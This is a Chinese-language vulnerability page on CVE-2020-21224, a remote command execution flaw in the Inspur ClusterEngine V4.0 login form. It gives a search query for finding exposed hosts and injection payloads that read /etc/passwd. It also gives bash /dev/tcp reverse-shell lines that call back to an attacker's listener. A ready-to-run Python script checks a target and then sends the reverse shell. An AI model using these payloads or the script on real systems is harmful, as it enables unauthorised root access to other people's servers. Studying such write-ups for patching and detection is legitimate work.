浪潮ClusterEngineV4.0 远程命令执行漏洞 CVE-2020-21224¶
漏洞描述¶
浪潮服务器群集管理系统存在危险字符未过滤，导致远程命令执行
漏洞影响¶
浪潮ClusterEngineV4.0
网络测绘¶
title="TSCEV4.0"
漏洞复现¶
登录页面如下

由于登录页面没有发现验证码，进行账号爆破
当burpsuite爆破完成时，注意到POST数据中如果带有 ;' ，响应数据包发生异常。

通过响应包信息，猜测可能存在一个远程执行代码漏洞，并将此数据包放在repeater中，我发现如果发布数据中有
一个 ' ，系统将抛出异常。


进一步测试时，我发现username参数或password任一参数如果包含 ' ，将引发此异常

定尝试发送 ' ' 来查看响应包。

我注意到 grep 命令错误，服务端的代码可能是这样
var1 = `grep xxxx`
var2 = $(python -c "from crypt import crypt;print crypt('$username','$1$$var1')")
尝试发送 -V 和 --help 来查看响应包，响应包证实了猜测


尝试读取 /etc/passswd

尝试列目录

确认存在一个远程执行命令执行漏洞，经过fuzz，得到以下payload


反弹 shell
op=login&username=1 2\',\'1\'\); `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.16.11.81%2F80%200%3E%261`
payload发送后, 在 kali linux 服务器上获取了一个 root 权限的 shell

上面是原文的测试思路，但经过重新测试之后发现还有另一种简单方法
POC测试(出现 root:x:0:0 则存在漏洞)
op=login&username=test`$(cat /etc/passwd)`
{"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user test does not exist\nerror:1\n"}
反弹shell
op=login&username=test`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`

漏洞POC¶
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mGithub : https://github.com/PeiQi0 \033[0m')
print('+ \033[34m公众号 : PeiQi文库 \033[0m')
print('+ \033[34mVersion: 浪潮ClusterEngineV4.0 \033[0m')
print('+ \033[36m使用格式: python3 poc.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx \033[0m')
print('+ \033[36mIP >>> xxx.xxx.xxx.xxx:9999 \033[0m')
print('+ \033[36mPORT >>> 9999 \033[0m')
print('+------------------------------------------')
def POC_1(target_url):
vuln_url = target_url + "/login"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"Content-Type": "application/x-www-form-urlencoded",
"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
}
data = "op=login&username=test`$(cat /etc/passwd)`"
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=4)
etc_passwd = re.findall(r'\{"err":"/bin/sh: (.*?): No such', response.text)
if response.status_code == 200 and "root:x:0:0" in response.text:
print("\033[32m[o] 目标 {} 可能存在漏洞, 响应为:{} \033[0m".format(target_url, etc_passwd[0]))
POC_2(target_url)
else:
print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
except Exception as e:
print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))
def POC_2(target_url):
IP = str(input("\033[35m请输入监听IP >>> \033[0m"))
PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
vuln_url = target_url + "/login"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"Content-Type": "application/x-www-form-urlencoded",
"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
}
data = "op=login&username=`bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{}%2F{}%200%3E%261`".format(IP, PORT)
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.post(url=vuln_url, headers=headers, data=data, verify=False)
except Exception as e:
print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))
if __name__ == '__main__':
title()
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
POC_1(target_url)
